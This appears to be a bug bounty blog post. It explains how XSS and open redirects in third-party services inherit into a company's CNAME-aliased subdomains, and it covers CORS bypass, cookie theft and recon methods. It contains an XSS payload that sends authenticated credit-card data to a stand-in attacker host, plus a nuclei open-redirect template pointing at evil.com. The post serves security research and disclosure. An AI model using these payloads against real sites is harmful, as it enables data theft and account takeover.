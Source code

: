 ```yaml
---
layout: single
title: Exploitation through vulnerability inheritance - Attacking companies and scoring bounties through 3rd party integrations
date: 2021-02-15
classes: wide
header:
  teaser: /images/3rdparty_teaser.png
tags:

  -BugBounty
--- 
```


**Exploitation through vulnerability inheritance - Attacking companies and scoring bounties through 3rd party integrations**

![preview](/images/3rdparty_teaser.png)

## Agenda

During my last couple of months engaging with bug bounties on companies who hold responsible disclosure policy, I have encountered what might be called as some sort of routine, which helped me score bounties on companies regardless of their size.

This is due to what I will refer on this blog post as "Vulnerability Inheritance"

In this blog I'll cover the following:

![preview](/images/agenda.png)


### General

In today’s world, software companies are growing rapidly and so the need for new designs and features to implement ontop of the company current niche, which draws large portion of the software developers attention.

Companies will opt to “adopt” 3rd party services to achieve certain functionality goals, which would give them a "cheap" and time rewarding solution instead of investing manpower on maintaining and devloping certain "sideways" features which are already being maintaned and constantly developed by big companies.

While doing so is indeed rewarding and has many benefits, it do come out with a security price which needs to be considered and handeld correctly by the companies.

The 2 main methods in which we can integrate 3rd party services within our company domains are the following:

![2ways](/images/2ways.png)

The main area which I will cover are within the CNAME and A records integrations, for <script> and <iframe> integrations, there are several vulnerabilities which can arise and I'd suggest watching our Chief Architect at enso.security talk about postMessage exploitations which we had given earlier this year.

**Understanding CNAMES and A records**

CNAME records can be used to alias one name to another. CNAME stands for Canonical Name.
A common example is when you have both example.com and www.example.com pointing to the same application and hosted by the same server. 
To avoid maintaining two different records, it’s common to create:
* An A record for example.com pointing to the server IP address
* A CNAME record for www.example.com pointing to example.com

As a result, example.com points to the server IP address, and www.example.com points to the same address via example.com. If the IP address changes, you only need to update it in one place: just edit the A record for example.com, and www.example.com automatically inherits the changes.

**Understanding CNAMES and A records DNS flow**

![dns_cname](/images/cname_dns.png)

By observing the DNS flow above, you could already start to glimpse the point why security vulnerabilities are being arised from integrations as such.

There are 2 ways to implement 3rd party integrations through DNS records:

* Assigning a CNAME record from a subdomain to the 3rd party service, by doing so we "alias" the contents from the 3rd party website to serve on our subdomain.

* Assigning A record to an IP address which will run the vendor's service with slight modificatitions.

![flow_nagli](/images/flow.png)

After understanding the basics, we can dive deeper into the threat and attack models section

### Threat and attack models

![threat](/images/threat.png)

As we approach the threats and attack models phase, we need to understand that the main attack vectors we will look for are **Client Side Vulnerabilities**, this should make sense by now as we are attacking the company subdomain which is being served as an alias to third party service, in other words:

Achieveing RCE on the target would actually mean that we have remote code execution on the vendor's server
Achieving SSRF on the target would actually mean that we have Server Side Request Forgery from the vendor's IP
Achieveing XXE on the target would actually mean that we have XML External Entity attack on the vendor's server

Those attacks are severe and can affect the subdomain we are targeting, but as for the impact we are going for to the actual company we are targeting, it will still remain within the same attack models that we can achieve from Client Side Vulnerabilities on the specific subdomain.

I believe that Subdomain takeovers and Dangling dns records are wide known and understood with the community, there are bunch of great tutorials and explanations on these attacks and It's not the main discusstion area of the blog, yet it has to be mentioned and I'll share on the reconnaissance my methodology targeting and automatic the process of finding those.

![tko](/images/tko.png)

![dangling](/images/dangling.png)

Now, let's dive into the main part of the talk.

Client side vulnerabilities such as Cross Site Scripting and Open Redirects are often considered the most common bugs to be found by bug bounty hunters, as such many defence measures are being integrated and considered by companies todays such as implementing CSP (Content-Security-Policy), Deploying a WAF (Web Application Firewall), strict regex controls and sanitizing user input on all fields at all costs (Almost an impossible task).

Those solutions are good, although there are many WAF and CSP Bypasses which are being discovered from time to time, it will mostly do good job with protecting your companies domain from the straight forward attacks.

**But**,
When we integrate 3rd party service to our domain by pointing to it with a CNAME or A record, we are serving an alias of the vendors website, and the defense measures which we have taken throught the entire development process are no longer effective.

Upon integration we are being 100% dependent on the vendors security policy regarding vulnerabillities.

And this is where the **"Vulnerability Inheritance"** part comes to play, whenever we decide to integrate a new service, we will inherit it's entire security flaws to be served under our domain.

Let's take a quick look on the matter:

Assume we have found Stored XSS on a third party vendor, let's say on .welearn.com, and the company which we are targeting - target.com has a subdomain named study.target.com which points to target.welearn.com, target.com is well protected with strict CSP in place and up to date WAF.

Because study.target.com is a CNAME, it won't have any of these protections inplace, which could have blocked the XSS we have found on the 3rd party vendor.

Now, we will navigate to the subdomain and execute the XSS, as we could have anticipated it's affecting website as well as the vendors website, and the document.domain of the execution is being changed accordingly. 

![xss](/images/xss.png)

That's nice, so we found a vulnerability on a subdomain of our target.com company, and we have done so without tackling any of the defense in depth security measures being implemented on their domains. it's already a valid vulnerability if the company has wildcard domain inscope for assessment.

As I have encountered from time to time with my assessments, often the targeted companies won't realize the impact for such vulnerabilities, and they can issue a generic response as:

"Nice find, although the subdomain you have targeted is affecting 3rd party service which isn't under our control, and there is no impact by doing so."

The vulnerability itself indeed cannot be resolved by the company which we target, and they best mitigation considering the severity is to take down the website for maintanence until the vendor will fix it's flows.

Regarding the impact, it's subjective to the companies design and implementations, and it could be used as a chain to more severer actions.

**Bypassing CORS protections**

To those who are unfamilliar with the **Cross Origin Resource Sharing** mechanism:

Cross-Origin Resource Sharing (CORS) is an HTTP-header based mechanism that allows a server to indicate any other origins (domain, scheme, or port) than its own from which a browser should permit loading of resources.

Upon examining the main functions of our target website, if we come across the following set of headers and there is sensitive data being returned on the page, we defintly should stop and investigate what happens:

```javascript
Access-Control-Allow-Origin: https://galnagli.com
Access-Control-Allow-Credentials: true
```

When responding to a credentialed request, the server must specify an origin in the value of the Access-Control-Allow-Origin header, instead of specifying the `*` wildcard.

We want to make a request with the Access-Control-Allow-Credentials: true header, as it would allow fetching data with the user credentials attached (as authenticated personal).

Targets who set their CORS policy could have it assigned as "Wildcard" whenever dealing with requests which doesn't require authentication.
And as defense mechanism they would allow specifing the origin on authenticated requests only to be scope for the targets subdomains, such as 

```javascript
*.galnagli.com
```

It means that if we want to initiate a request from a subdomain of our target, we will specify it's name on the Allow-Origin header, which will look like the following:

```javascript
Access-Control-Allow-Origin: https://study.galnagli.com
Access-Control-Allow-Credentials: true
```

Now, as we have discovered Cross Site Scripting vulnerability on that subdomain, and although it occurres because of the 3rd party vendor misconfigurations, the origin of execution is being tied to our subdomain, which is inscope of making credential requests to the main domain as per our target configuration.

We can use our XSS to fetch sensitive information which is being stored on the parent domain by issuing a script similar to:

```javascript
<script>
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://galnagli.com/creditcard.json',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
</script>
```

Storing this as the Cross Site Scripting payload will send to our attacker controlled server the creditcard.json authenticated response for each visitor who visits the affected subdomain and executes the script.


**Cookies exfiltration**

When companies are setting up cookies on their main websites, they tend to configure them with domain attribute, with makes them accessible and stored on the respective subdomains as well.

As per MDN:
```
Domain attribute
The Domain attribute specifies which hosts are allowed to receive the cookie. If unspecified, it defaults to the same host that set the cookie, excluding subdomains. If Domain is specified, then subdomains are always included. Therefore, specifying Domain is less restrictive than omitting it. However, it can be helpful when subdomains need to share information about a user.

For example, if Domain=mozilla.org is set, then cookies are available on subdomains like developer.mozilla.org.
```

It means that if we manage to find XSS vulnerability on our subdomain, we can exfiltrate the cookies which are being set on the parent domain, only if they are not protected by HTTPOnly flags.

We can use the cookies attached to issue requests from the victim perspective (such as CSRF attacks) regardless of the cookies being set to HTTPOnly.

![cookie](/images/cookie.png)

**Business Logic Errors**

Similar to the impact of subdomain takeover, instead of stealing the domain and to show a generic alert popup from that subdomain, we can use that subdomain to demonstrate legitimate service claiming to be on behalf of the original domain, while its actually being managed by the attacker.

Let's take to an example if we managed to takeover a shopify domain of the target domain, served on shop.target.com:

![business](/images/business.png)

**Open Redirect as a chain**

Assuming we have found open redirect on our vulnerable 3rd party vendor, which affects our subdomain shop.galnagli.com.
This could be used as a chain to more severe attacks, some companies would accept the open redirect as P4, but this should be considered last resort after trying to achieve greater affect and impact through different and more severe vulnerabilities such as Account Takeover or SSRF Bypasses.

**Account Takeover**

Let's take a look at the following example:

![redirectko](/images/redirect_tko.png)

While this issue looks straight forward like regular open redirect to account takeover, it's not that case so often.
Because we have another location to redirect through, we will often encounter a redirection chain which won't carry the authentication code throughout the entire process, we need to have certain redirection which fetches and issues the call through the DOM of certain page, and only redirects to the final domain from the original initiator

```javascript
https://galnagli.com - > https://shop.galnagli.com -> https://sadf.burpcollaborator.com - Most likely won't carry the auth code.
https://galnagli.com - > **middleman redirection processing page** -> https://sadf.burpcollaborator.com - Most likely will work.
```


**SSRF Bypass**

Similar to the previous vulnerable scenario, we can achieve SSRF by bypassing allowed whitelisted wildcard urls at certain scenarios.

![ssrf](/images/ssrf.png)

### Reconnaissance

The Reconnaissance part should be divded to 2 main parts:

![recon](/images/2recon.png)

Our first task is to find a potenial target to test for possible vulnerabilities.

I prefer to scan the our target first and look for 3rd parties services which are integrated already in their flow, although a researcher could opt to find web 0-days on 3rd party vendor services before looking for any target, I'm not sure it hold the ethical phase if the vendor won't operate any responsible disclosure policy (which is really bad for vendor's to not have one of those)

And you might find a vulnerability which won't affect any target who offers bug bounties or CVE to award your effort, so going through our target assets and expanding further should be the way to go.

We are mostly interested to find the CNAME records and potenial A records with titles who indicate the usage of 3rd party services.

There are many unix tools which could help us to determine the if certain host (https://www.example.com) has CNAME pointer to certain website, the most simple way to check for those would to run a dig scan

```javascript
dig target.com CNAME
```
which should return in response similar answer to:

```javascript
shop.galnagli.com.     300     IN      CNAME   galnagli.myshopify.com
```

Although, there are better ways and faster tools which would let us run over large portion of domains and return on the same iteration the title of the webpage, and it's CNAME.
using the opensource httpx tool by ProjectDiscovery we can use the following script to scan a list of subdomains and extract their CNAMES records and titles, given a list of subdomains with their respective status code.

```javascript
cat subdomains.txt | httpx -cname -title -status-code > rawdata.txt
```

```javascript
https://shop.galnagli.com [404] [This shopping website is unclaimed] [galnagli.myshop.com]
https://events.galnagli.com [200] [Welcome to eventstoday platform] [galnagli.eventstoday.com]
```

So we have determined that our subdomain has CNAME pointer to 3rd party vendor, assuming our target accepts wildcard reports and going over the entire blog until this point, we can explore the for vulnerabilities on the vendors website and apply those on the in-scope subdomain.

Even if events.galnagli.com didn't have a CNAME record to eventstoday, and was hosting it on a IP address with A record, the title of the webpage would exfiltrate the fact that it's a 3rd party service.

Apart from automation, we can never takeaway from manually inspecting websites. 
we could usually encounter via the sourcecode image locations or "signatures" on the page the fact that we are being served a 3rd party vendors code.

So, we found a target, and we managed to find vulnerabilities on it such as XSS or Open-Redirect, that's great and should count as a valid report.

However, the potenial is way bigger, now we have a "0 day" on web application service, and we should scrape the internet at scale to find other big vendors who uses the same service to host content on their domains.

![fingerprint](/images/fingerprint.png)


**Google Dorks**

Common google dorking patterns which can aid us in finding more potenial vulnerable targets will be utilized by the "site", "inurl" and "intext" Google dorks

![dorks](/images/dorks.png)

**Customers page**

Often, one of the most benefiting and simple solutions expanding our vulnerable targets batch is to navigate to the 3rd party vendors, which usually contains a Customer or About us page with data about new targets to explore.

Sometimes you could get indication of the number of vulnerable assets, as they vendor might state "Trusted by 100K Companies around the world", that's surely good news!

**Reverse CNAME lookup**

One of the most accurate and to the point methods to find vulnerable targets is by utilizing Reverse CNAME lookups which is being offered by several online services.

This solution might not be free, those are services like Shodan, Censys or Spyse who scrape the entire internet assets data and store them into their databases.
By doing so they allow us to filter our searches to find the CNAME pointers values of assets, by looking up for the 3rd party vendor CNAME Scheme.

Personally I have used spyse's service, and it worked just fine.

![dorks](/images/reverse_cname.png)

**Path Fingerprinting**

Sometimes, we find our vulnerability on a custom path which seems pretty unique and it could be used as an identifier for potenial vulnerability.
We have great open source tools such as meg by tomnomnom or Nuclei by ProjectDiscovery which can help us either create a template or query the request with the certain path

Example of creating a template with nuclei .yaml templates:

```javascript
id: welearn-redirect

info:
  name: Open Redirect vulnerability on welearn websites
  author: Gal Nagli
  severity: Medium
  tags: redirect


requests:
  - method: GET

    path:
      - "{{BaseURL}}/api/welearn/v2/exitnotice?goto=http://evil.com"

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 302
      - type: word
        words:
          - "<a href=\"http://evil.com>""
        condition: or
        part: body
 ```

What this template will check is giving a request to our URL with the specific path supplied, is the response returns 302 status code with the words ```<a href=https://evil.com>``` in it? if so - pop an alert.
  
You save your file as welearn-redirect.yaml, add it to your nuclei templates and can run it on millions of subdomains in no-time.

![path](/images/path.png)


### Practical exploitations

**Account Takeover**

**RXSS Bugcrowd**

**RXSS hackerone**

**Open Redirect twitter/amazon/facebook/snapchat**



### Takeaways

**This subject will only grow and become more frequent**

**Caution when assigning CNAME records**

**Monitoring**


